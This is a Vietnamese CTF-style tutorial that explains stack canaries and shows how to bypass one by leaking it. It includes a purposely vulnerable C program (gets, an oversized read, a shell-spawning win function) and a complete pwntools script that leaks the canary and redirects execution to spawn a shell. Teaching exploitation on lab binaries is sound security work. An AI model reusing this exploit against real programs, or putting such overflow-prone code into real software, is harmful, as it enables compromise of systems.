





# Decription

BOF dù rất nguy hiểm nhưng vẫn có 1 số cách để ngăn chặn nó.

Bài này tôi sẽ nói về canary.

# What is canary?

Canary là một cơ chế bảo vệ stack khỏi tấn công Buffer Overflow (BOF).

Khi chương trình chạy, trình biên dịch sẽ chèn một giá trị đặc biệt gọi là stack canary giữa các biến cục bộ và địa chỉ trả về trên stack.

Giá trị này được khởi tạo từ một biến canary toàn cục (global canary) khi chương trình bắt đầu.

Trước khi hàm return, chương trình sẽ so sánh giá trị canary trên stack (local canary) với canary toàn cục.

Nếu 2 giá trị này không khớp nhau, có nghĩa là stack đã bị ghi đè → chương trình kết thúc ngay lập tức (__stack_chk_fail()), nhằm ngăn chặn việc kiểm soát dòng thực thi.

Thường thì giá trị canary là động. Nhưng nó cũng có đặc điểm là bytes cuối cùng luôn là null và luôn nằm gần và trên thanh ghi save rbp.


# How to bypass canary?

Có rất nhiều cách để bypass canary như leak, bruteforce tùy vào điều kiện của chương trình. Tôi sẽ trình bày 1 cách là leak canary.

# Code

```c
#include<stdio.h>
#include <stdlib.h>
#include <unistd.h>


char *gets(char *);
void win() {
    system("/bin/sh");
}

void vul(){
    char secret[64];
    puts("Gift for u:");
    gets(secret);
}
int main(){
    char buf[64];
    puts("welcome to bof ez !!!");
    puts("Can you get shell");
    read(0,buf,73);
    puts("Oh... I see!");
    puts(buf);
    vul();
    return 0;
}
```

# Solve

Ta có thể thấy rằng buf khai báo 64 bytes nhưng read đến 73 bytes nên có bof.

Do bài có canary nên ta nhập quá sẽ bị stack smashing. Do dó cần leak được canary ra.

Mở gdb và xem.



Canary ở ngay trên rsp. Offset từ buf đến canary là 72.

Trong code ta thấy hàm read đọc vào buf sau đó puts(buf). 

Hàm read sẽ nối liền với dữ liệu đằng sau nó nêu không có bytes null sau nó.

Điều này có nghĩa là puts sẽ in ra buf + dữ liêu sau nó nếu không có bytes null.

Vậy t ghì đè 1 bytes null của canary.

```c
payload = b'a' *73

sa(b'get shell\n', payload)
```



Ta thấy rằng sau 73 bytes a là 1 chuỗi không in được. Đó là canary. 

Vậy ta cần nhận 7 bytes này sau đó thêm 1 bytes null vào.

```c
p.recv(86)
canary = u64(b'\x00' +p.recv(7))
log.info("Canary: " + hex(canary))
```


Trong hàm vul ta cũng có bof. Cần tính ofset từ secret đến canary sau đó nhập canary để bypass.



```c
payload = b'b'*72
payload += p64(canary)
payload += p64(0xdeadbeaf)
payload += p64(exe.sym.win+1)
sla(b'u:\n',payload)
```



# Full Script
```c
#!/usr/bin/env python3

from pwn import *

exe = ELF('bof', checksec=False)
# libc = ELF('', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.p.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
b* 0x000000000040120a
b* 0x0000000000401229
b* 0x0000000000401257
b* 0x00000000004011d0
        c
        ''')
        input()


if args.REMOTE:
    p = remote('')
else:
    p = process([exe.path])
GDB()

payload = b'a' *73

sa(b'get shell\n', payload)
p.recv(86)
canary = u64(b'\x00' +p.recv(7))
log.info("Canary: " + hex(canary))

payload = b'b'*72
payload += p64(canary)
payload += p64(0xdeadbeaf)
payload += p64(exe.sym.win+1)
sla(b'u:\n',payload)
p.interactive()


```

# Flag

CANARY{5o_3a5y_Right}
